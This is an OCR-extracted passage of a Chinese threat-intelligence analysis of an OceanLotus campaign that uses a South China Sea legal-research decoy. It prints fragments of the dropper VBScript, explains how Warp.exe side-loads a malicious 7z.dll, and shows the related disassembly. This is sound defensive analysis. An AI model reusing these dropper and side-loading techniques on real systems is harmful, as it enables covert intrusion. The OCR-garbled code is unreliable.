 ## VBScript脚本  

VBScript脚本加载后主要释放三个文件：白文件Warp.exe、恶意DLL文件7z.dll到目录C:\Program Files\Cloudflare，以及诱饵文件"适用于南海的两种法律制度研究（稿件）.docx"到目录%Temp%  

11 Set G7WaUUzB=Createobject("WScript.Shel1")   
12 Set aocowTWm=Createobject("Scripting.FileSystemobject")   
13 dp3Vb=G7WaUUzB.ExpandEnvironmentStrings("&ProgramFiles")   
14 iIbaE7AGCNO9=dp3vb&"\\Cloudflare"   
15 aocowTWm.CreateFolder(iIbaE7AGCNO9)   
16 F6HOe=iIbaE7AGCNO9&"\\Warp.exe"   
17 SsOmk=iIbaE7AGCNO9&"\\7z.d11"   
18 For i=1 to Len(ocI5Wdrci） Step 4   
19 TKoz8djsy=TKoz8djsy&ChrW(CLng（Chr（Int（"38"))&Chr（Int（"72"))&Mid(OcI5Wdrci，i，4)))   
20 Next  

释放文件来自源文件，名为CONSOLE_TREE、CONSOLE_MENU、以及CONSOLE_PANE的标签，通过Base64解码后写入对应的文件路径  

![](https://cdn-mineru.openxlab.org.cn/extract/d68deeb7-070c-44df-bc5d-a77f9b09aebd/e01f83edb84fd20305c8e5a239b28686fd1bcd5b449416d0bd27719eef807d07.jpg)  
海莲花组织以南海的法律制度等为话题的攻击活动分析  

### 最后打开诱饵文件、带参数"t8.8.8.8"启动白文件Warp.exe  

30 ED4rz.SaveToFile HFFNGwV,2   
31 G7WaUUzB.run &HFFNGWV&""，1,false   
50 G7WaUUzB.run &F6HOe&""&"t8.8.8.8",0,false   
51 End Function  

## DLL文件侧载  

DLL文件侧载是一种利用程序加载DLL文件进行恶意操作的攻击技术，正常情况下，应用程序会依赖系统提供的动态链接库（DLL）执行特定功能。攻击者则通过修改或替换这些DLL文件，使应用程序加载恶意代码。  

利用DLL文件劫持是OceanLotus组织常用的一种攻击手法，该组织在历史攻击活动中劫持过的白文件包括：WinWord.exe（Word主程序）、MicrosoftUpdate.exe（微软升级程序）、SoftManager.exe（360软件管理器）、GoogleUpdate.exe（谷歌更新程序）、LenovoDrvTray.exe（联想驱动管理程序）、RasTlsc.exe（赛门铁克产品组件）、LenovoDesk.exe（联想桌面应用) 等。  

此次捕获到OceanLotus使用的恶意DLL文件7z.dll由Warp.exe侧加载，其中Warp.exe证书信息如下：  

![](https://cdn-mineru.openxlab.org.cn/extract/d68deeb7-070c-44df-bc5d-a77f9b09aebd/022842ad5938224a1570cbe3694743f5b48f9c4411fde779b86ba34d22ac85c8.jpg)  

白文件加载7z.dll后，获取其导出表GetNumberOfMethods进行调用  

.text:0041c802 push offset aGetnumberofmet;"GetNumberOfMethods"   
.text:0041c807 push dwordptr[esi]；hModule   
.text:0041c809 mov [esp+50h+var_8],1   
.text:0041c811 call ds:GetProcAddress   
.text:0041c817 test eax,eax   
.text:0041c819 jz short 1oc_41c82A   
.text:0041C81B lea ecx,[esp+48h+var_8]   
.text:0041C81F push ecx   
.text:0041c820 call eax  

首先解密出字符串"cloudflare.warp.process"，并以此为名创建互斥体  
